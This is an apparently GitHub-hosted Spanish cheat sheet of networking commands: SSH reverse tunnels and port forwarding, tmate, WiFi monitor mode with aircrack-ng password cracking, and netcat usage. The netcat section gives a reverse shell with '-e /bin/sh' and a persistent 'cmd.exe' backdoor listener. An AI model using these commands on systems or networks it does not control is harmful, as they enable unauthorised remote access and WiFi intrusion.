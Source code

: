 ```

 El cliente con Firewall se conecta a la computadora del desarrollador (dev), y envía su shell de manera reversa (``-R--``), creando un túnel.

```
ssh -R 19999:localhost:22 dev@publicIP
```

 El desarrollador escucha en el puerto 19999 y accede a la computadora del cliente (cli), gracias al túnel abierto.

 ``ssh cli@localhost -p 19999``

 Redirigir un puerto (ej. 80) de una computadora remota al localhost (ej. 2002):

 ``ssh -N -L2002:localhost:80 user@ip_machine``

### Compartir la terminal en el browser

(``apt install tmate`` / ``yum install tmate``)

```
tmate
```

### Modo Monitor de Wifi, Sniffing y Crackeo con aircrack-ng (``apt install aircrack-ng``)

```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
iwconfig
airdump-ng
airodump-ng -c 1 --bssid XX:XX:XX:XX:XX:XX:XX -w output wlan1
aircrack-ng -b 00:14:6C:7E:40:80 output.cap -w mydiccionary.txt
```

Escaneo de Redes Wifi Disponibles

```
sudo iwlist wlan0 scan | egrep "Cell|ESSID|Signal|Rates"
```

### Ncat:

Reverse Shell:

Desarrollador escucha en puerto 4444

```
 nc -lvp 4444
```

Cliente envía su Shell a la IP del desarrollador

```
nc **IP** 4444 -e /bin/sh
```

Backdoor

Ejecutar en el servidor remoto

```
nc -L -p 3001 -d -e cmd.exe
```

```